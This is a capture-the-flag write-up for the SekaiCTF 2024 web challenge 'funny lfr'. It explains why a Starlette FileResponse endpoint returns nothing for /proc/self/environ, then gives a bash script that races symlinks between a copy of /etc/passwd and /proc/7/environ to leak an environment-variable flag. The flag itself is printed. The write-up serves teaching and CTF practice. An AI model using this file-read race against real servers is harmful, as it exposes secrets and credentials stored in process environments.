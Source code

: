 ```yaml
---
title: "SEKAI 24 - Funny Lfr"
date: 2024-08-30T11:01:21+01:00
tags: ["ctf", "write-up", "sekaictf"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Funny Lfr"
summary: "The article explains exploiting a race condition in a Starlette app to bypass `os.stat` checks, using symlinks, and ultimately retrieving the flag from `/proc/self/environ`."
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

* name: funny lfr
* category: web exploitation
* points: 183
* solves: 36 solves

You can access the challenge via SSH:
```bash
ncat -nlvp 2222 -c "ncat --ssl funny-lfr.chals.sekai.team 1337" & ssh -p2222 user@localhost
```
SSH access is only for convenience and is not related to the challenge.

## Analysis

We are given the following source files:

```bash
├── app.py
└── Dockerfile
```

Which represent a simple [Starlette](https://www.starlette.io/) application:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile

```bash
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

At first glance the challenge seems very simple. You make a request to `/?file=<path>`
and get the file contents displayed to you.

### `Inside SSH`

![inside-ssh](/blog/images/2024-08-30-11-28-28.png)

The flag as highlighted by the Dockerfile is stored inside an environment variable
called `FLAG`. Doing a quick google search, we can see that environment variables
in linux systems are stored in the `/proc/pid/environ` file.

With that knowledge in hand, we should get the flag just by getting the results of
`/proc/self/environ` which stores the environment variables of the current running process.

Right?

![right?](/blog/images/2024-08-30-11-38-10.png)

We got nothing... That's weird.

We know the application should return the contents of the files we ask for. However,
asking for `/proc/self/environ` doesn't return anything. Why?

Well, the python application is a Starlette application that adheres to ASGI specs,
the FileResponse class is responsible for returning files to the client. Before serving
a file, FileResponse checks the file's size using the os.stat syscall.

### `from Starlette source code`

![stat-check](/blog/images/2024-08-30-11-52-53.png)

The `os.stat` function retrieves various attributes about a file, such as its size, modification time, and permissions. When `os.stat` is called on a file, it checks the filesystem for this information.

However, in the case of `/proc/self/environ`, which resides within the `procfs` virtual filesystem (VFS), there’s a unique situation. The `procfs` VFS provides access to kernel and process information, and many files within it are not regular files but rather interfaces to the kernel's data structures. These files often have special behaviors, and their contents may be dynamically generated when accessed.

When `os.stat` **checks** `/proc/self/environ`, it reports the file size as zero because, in many cases, the file doesn’t have a traditional size; it's an interface to process-specific information that’s only generated on demand. Consequently, when `FileResponse` sees a size of zero, it might interpret this as an empty or non-existent file, even though reading from `/proc/self/environ` would normally return environment variables for the process.

This behavior can lead to the application not returning any content when asked for `/proc/self/environ`, despite the file being non-empty in a traditional sense. The mismatch between how `os.stat` reports the file's size and the file's actual contents in `procfs` **is the root cause of this issue.**


---

So, what can we do then?

It turns out, we can trigger a race condition to do the following:

1. request a file whose size is greater than 0.
2. right after `os.stat` and before the actual **read**, we swap the latter file,
with the desired file which is `/proc/pid/environ`.

To achieve such a thing, we can make use of [symlinks](https://en.wikipedia.org/wiki/Symbolic_link), create a symlink that points
to a bigger file, bypass the `os.stat` step, then right before the file read, we change
the link to `/proc/pid/environ` and successfully get the flag.


## Exploitation

To trigger the race condition, let's first create a bash script that creates a large file,
create a symlink to it, and then create an infinite loop which swaps the links between this file
and `/proc/pid/environ`.

> Note that you should replace pid with the actuall process id of the running python application.
You can figure that using `ps aux`. pid=7 in my case.

### `solve.sh`

```bash
#!/usr/bin/env bash

cat /etc/passwd > /home/user/big-file.txt

ln -s big-file.txt /home/user/the-link

while true; do
    ln -sf /proc/7/environ          /home/user/the-link
    ln -sf /home/user/big-file.txt  /home/user/the-link
done
```

Running this on remote, and doing few curls of the `the-link` file should give us the flag.

![solve](/blog/images/2024-08-30-12-32-01.png)

---

Flag is: `SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}`

Things we learned from this challenge:

Here are the key lessons from the challenge:

- **`os.stat` and `procfs`**: Learned how `os.stat` retrieves file attributes and why it reports `/proc/self/environ` as size zero in `procfs`.

- **Race Condition Exploit**: Discovered how to exploit race conditions using symlinks to bypass `os.stat` and read sensitive files.

- **Symlink Usage**: Learned to manipulate file paths using symlinks for exploitation purposes.
